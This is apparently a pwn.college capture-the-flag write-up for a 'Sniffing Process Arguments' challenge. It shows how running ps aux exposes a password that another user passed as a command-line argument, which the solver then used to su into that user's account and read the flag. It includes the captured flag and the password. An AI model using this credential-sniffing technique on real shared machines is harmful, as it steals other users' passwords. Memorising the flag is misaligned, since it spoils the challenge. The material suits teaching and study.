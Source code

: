 ## Sniffing Process Arguments
Poor Zardus; you've hacked him pretty heavily. But he's wisened up and secured his home directory! Game over?

Not quite! One of the things that people often don't think about when there are multiple accounts on one computer is what kind of data their command invocations leak. Remember, when you do ps aux, you get:

```bash
hacker@dojo:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
hacker         1  0.0  0.0   1128     4 ?        Ss   05:34   0:00 /sbin/docker-init -- /bin/sleep 6h
hacker         7  0.0  0.0   2736   580 ?        S    05:34   0:00 /bin/sleep 6h
hacker       102  0.4  0.0 723944 64660 ?        Sl   05:34   0:00 /usr/lib/code-server/lib/node /usr/lib/code-serve
hacker       138  3.3  0.0 968792 106272 ?       Sl   05:34   0:07 /usr/lib/code-server/lib/node /usr/lib/code-serve
hacker       287  0.0  0.0 717648 53136 ?        Sl   05:34   0:00 /usr/lib/code-server/lib/node /usr/lib/code-serve
hacker       318  3.3  0.0 977472 98256 ?        Sl   05:34   0:06 /usr/lib/code-server/lib/node --dns-result-order=
hacker       554  0.4  0.0 650560 55360 ?        Rl   05:35   0:00 /usr/lib/code-server/lib/node /usr/lib/code-serve
hacker       571  0.0  0.0   4600  4032 pts/0    Ss   05:35   0:00 /usr/bin/bash --init-file /usr/lib/code-server/li
hacker      1172  0.0  0.0   5892  2924 pts/0    R+   05:38   0:00 ps aux
hacker@dojo:~$
```
But what would happen if one of the arguments of one of those commands was something sensitive, like the flag or a password? This happens, and nefarious users sharing the same machine (or somehow otherwise listing processes on it) can steal that data and use it!

That's what this challenge explores. Zardus is using an automation script, passing his account password to it as an argument. Zardus is also allowed to use sudo (and, thus, to sudo cat /flag!). Steal the password, log in to Zardus' account (recall the su command from the Untangling Users module), and get that flag!

### Solve
**Flag:** `pwn.college{kePP5nbRdLbE5cIpZrOamw3luwN.0FOzEzNxwSN1gjNzEzW}`
 for this Challenge,i found that /challenge/victim has been modified to /challenge/bin/auto.sh by checking all the directories in /challenges. Then i ran /challenge/bin/auto.sh and theni again ran /challenge/bin/auto.sh chaining with ps aux using & to find the command with the password as argument.I found the password and then i logged in as zardus and sudo catted the /flag .

```bash 
hacker@shenanigans~sniffing-process-arguments:~$ /challenge/bin/auto.sh
This isn't the way to get the flag! If you already sniffed Zardus' password, use 'su' to log into his account and his 'sudo' access to cat the flag!
^Z
[5]+  Stopped                 /challenge/bin/auto.sh
hacker@shenanigans~sniffing-process-arguments:~$ /challenge/bin/auto.sh & ps aux
[6] 240
This isn't the way to get the flag! If you already sniffed Zardus' password, use 'su' to log into his account and his 'sudo' access to cat the flag!
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   1056   640 ?        Ss   19:17   0:00 /sbin/docker-init -- /nix/var/nix/profiles/dojo-workspace/bin/dojo-init /run/dojo/bin/sle
root           7  0.0  0.0 231708  2560 ?        S    19:17   0:00 /run/dojo/bin/sleep 6h
root         147  0.0  0.0   5204  3520 ?        S    19:17   0:00 su -c auto.sh --user zardus --pass pw_1933626506 zardus
zardus       151  0.0  0.0   4132  2560 ?        Ss   19:17   0:00 /bin/bash /run/challenge/bin/auto.sh --user zardus --pass pw_1933626506
zardus       152  0.0  0.0 231708  2560 ?        S    19:17   0:00 sleep 6h
```